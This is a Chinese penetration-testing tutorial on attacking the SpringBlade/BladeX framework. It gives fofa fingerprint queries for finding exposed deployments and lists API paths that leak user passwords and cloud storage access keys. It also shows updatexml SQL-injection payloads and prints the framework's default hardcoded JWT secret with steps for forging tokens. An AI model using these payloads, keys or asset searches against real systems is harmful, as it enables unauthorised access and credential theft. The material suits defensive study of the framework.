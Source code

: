 #  bladex漏洞思路总结   
原创 zkaq-不许打呼噜  掌控安全EDU   2024-10-06 14:00  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 -  不许打呼噜 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
# Springblade框架介绍：  
  
SpringBlade是一个基于Spring Boot和Spring Cloud的微服务架构框架，它是由商业级项目升级优化而来的综合型项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYKDziagJHVM0nTticdVfncOKW8kY1olBXjZkQCuzrColaxOmTKUg3tySw/640?wx_fmt=png&from=appmsg "null")  
# 0x1 前言  
  
最近跟一些大佬学习了blade的漏洞，所以自己总结了一下，在渗透测试过程中，遇到blade框架的时候，该有哪些渗透思路，Springblade是基于spring-boot开发的，接口泄露、sql注入他也存在。  
# 0x2 Spring-blade特征  
## 特征1  
  
看到一把剑没有，这就是它的特征，可以将一个ico图片，下载下来，在fofa、鹰图上搜索，很多资产都是blade的  
  
```
icon_hash="1047841028"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkY0uAGDo6W3oVlKrJ9iaIP2Tlx8ahkQT1dDcekB6h7rZ2zPspn6ETPicbQ/640?wx_fmt=png&from=appmsg "null")  
## 特征2  
  
在页面加载过程中，会出现以下的加载页面，和最下方的https://bladex.vip，此时我们就可以将这个地址放到fofa上去扩大资产  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYiag56AHthBBAKW5LM90ZLT3wibJmLojpHCT8zSkMPXpnQ1hBKJnvJJEQ/640?wx_fmt=png&from=appmsg "null")  
```
body="https://bladex.vip"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkY9mtn1bhm5md8GrickKbtkicLxrAC48NA5b4zbBGaApzibeza4iaDyaicl1A/640?wx_fmt=png&from=appmsg "null")  
## 特征3  
  
在路径中若发现blade，这个字段，也基本可以确定是blade框架  
```
/api/blade-user/info
/api/blade-auth/oauth/captcha
.....
```  
# 0x3 发现资产  
  
额，本来是像找一个可以注册的站，然后通过注册进去，想不到随便翻翻。。。。  
  
直接把账号密码，写在页面中。。。。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYk4qekhZvKOAwCqaB7Vdvb1CzVDWWeSia22Rd5ZEPyxhpMqbOaJbVxzw/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkY2FNKAiaMQFTDWyQAerYWW4kBnzfP5Es5gXvuHlEQebGnxg6N6STL2nw/640?wx_fmt=png&from=appmsg "null")  
  
进来之后，抓取数据包，说明一嘴，在路径中若看到blade-system，这个路径也代表这个站就是blade框架  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkY8HWaQrjc9yc5649bvy4HqjYoIyTw6ZgeQiaQzusFlaMxxLmtczwLuOw/640?wx_fmt=png&from=appmsg "null")  
# 0x4 漏洞案列  
## 4.1 接口泄露  
  
正常情况下，应该是/api/blade-system/，但很明显开发人员将前面的路径改了，这样有些人在使用扫描器批量扫资产的时候，就会错过这样的站点  
```
/oaApi/blade-system/menu/buttons
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYvRicIyGgEqAB9cCPrSX8x4oXgiaiacMic80mxefDvSEccGaXiaU3Ym1b1mw/640?wx_fmt=png&from=appmsg "")  
```
/oaApi/blade-system/user/user-list
```  
  
泄露了大量用户的姓名，密码（也包括管理员的信息）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYSkvyaMRw2ibmHs2SdIR0ib96J2SHIORTT2ah5SsW3uOwNvvlSMvog4ZA/640?wx_fmt=png&from=appmsg "null")  
```
/oaApi/blade-resource/oss/list
```  
  
泄露云服务器的accesskey、secrekey，直接去接管  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYMic0aj2c0YtmtvpcmJoXibumtm5ibbetd7o0rJTrPiaNX87xRys3brvW7w/640?wx_fmt=png&from=appmsg "null")  
  
这里我们使用OSS Browser工具，使用cname进行连接，否者连接不上，登录成功，但里面不存在任何的数据。  
  
下载地址：https://github.com/aliyun/oss-browser  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYYeE1508dqZYYGpM3uTZCpGCvdL6SJsQdxRRcQaAoUbIPYZQRicr3ATA/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYaoQDonTVRHp9oicPhckw6KBcZq6bOXpQuXHWvMWzySn2icJvTM6XaMJA/640?wx_fmt=png&from=appmsg "null")  
  
这里还有很多的泄露信息的接口，就不一一列举了，我将自己收集的bladeapi接口,放到附件里面了，需要的师傅请到社区自取：https://bbs.zkaq.cn/t/31811.html。  
```
/api/blade-system/user/user-list
/api/blade-system/tenant/select
/api/blade-develop/datasource/list
/api/blade-resource/oss/list
/api/blade-develop/datasource/list
/api/blade-system/code/remove
/api/blade-resource/oss/remove
/api/blade-system/dict-biz/remove
/authority/role/add
/system/dict/add
.......
```  
## 4.2 SQL注入  
```
/oaApi/blade-log/error/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1
```  
  
e这个不存在这个漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYsIXQuItsbEdng2lP2EcmKMNZXmQBPLC1iaian3JwvpeFgCjZAHU2lEVQ/640?wx_fmt=png&from=appmsg "null")  
  
试了其他注入点，也不存在注入  
```
/oaApi/blade-user/export-user?Blade-Auth=[jwt码]&account=&realName=&1-updatexml(1,concat(0x5c,database(),0x5c),1)=1

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYTwMZoicmh0b24tYSbKZwkibZlrzhVucfOCmmia3zNNvuhfT8rPrarrVog/640?wx_fmt=png&from=appmsg "null")  
## 4.3 jwt硬编码  
```
bladexisapowerfulmicroservicearchitectureupgradedandoptimizedfromacommercialproject

```  
  
漏洞原因：开发者在使用jwt进行身份认证时，并没有对默认的jwt密钥进行修改，导致黑客可以利用默认的jwt密钥去伪造jwt值，可以欺骗服务器获取用户权限等  
  
教程：将上面的密钥放到箭头指示的位置，然后修改payload里的字段，因为服务器都是通过这个payload中的字段进行鉴权的，所以通过修改payload中的字段，来达到伪造jwt欺骗服务器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYrwZ1DP5fYmRxiaicnHxOgKWWpFOsFDrbZz02eZ6U33TmfpV25deI7oicA/640?wx_fmt=png&from=appmsg "null")  
  
将修改后的jwt字段，放回Blade-Auth中，放包，看是否回显，若回显，则证明存在jwt硬编码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkYXcls0s7Luovv9BVMlXqG5g1Xvd9dBic5B6qYwq0e8UGoDpVDGuZ7J8A/640?wx_fmt=png&from=appmsg "null")  
  
不成功则会出现未授权  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcosaO3gFpHoyVib1ueUXIJkY8hcGqraR2J4Ia5Q1oFOcc22sgfh86Z6McPj0ibbOAodoZQnY5vQy57A/640?wx_fmt=png&from=appmsg "null")  
# 0x5 总结  
  
结束，以上是我了解的blade框架的漏洞，暂时就知道这些漏洞，若后续有新发现的漏洞也会补上，谢谢师傅们观看  
```
```  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
